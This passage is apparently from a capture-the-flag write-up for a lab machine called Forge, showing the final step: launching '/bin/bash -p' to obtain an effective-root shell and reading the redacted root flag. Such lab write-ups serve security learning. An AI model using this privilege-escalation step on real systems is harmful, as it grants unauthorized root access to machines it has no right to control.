 ### Obtaining root flag
Now, all we have to do is to create a bash shell and obtain the system flag.
  
```
user@forge:~$ /bin/bash -p
bash-5.0# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
bash-5.0# cd root
bash: cd: root: No such file or directory
bash-5.0# find root.txt
find: ‘root.txt’: No such file or directory
bash-5.0# cd /root
bash-5.0# cat root.txt
<Redacted system flag>
```
